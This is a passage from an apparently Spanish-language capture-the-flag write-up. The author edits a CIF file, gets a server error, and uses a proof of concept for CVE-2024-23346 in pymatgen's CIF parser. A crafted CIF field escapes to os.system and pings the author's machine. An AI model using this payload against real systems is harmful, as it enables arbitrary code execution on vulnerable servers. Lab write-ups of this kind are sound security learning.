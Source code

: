 Vamos a editar uno de los valores.
![Write-up Image](images/Screenshot_6.png)

Y al subir este archivo vemos un error 500.
![Write-up Image](images/Screenshot_7.png)

Buscando por exploits de parseadores CIF en Python, encontré [este artículo](https://ethicalhacking.uk/cve-2024-23346-arbitrary-code-execution-in-pymatgen-via-insecure/#gsc.tab=0)

Utilizando el PoC adjunto pero modificando el comando a ejecutar para mandarme una traza ICMP a mi máquina.
```console
$ cat poc.cif 
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in
().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" +
"classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("ping -c 10.10.16.15");0,0,0'

_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```
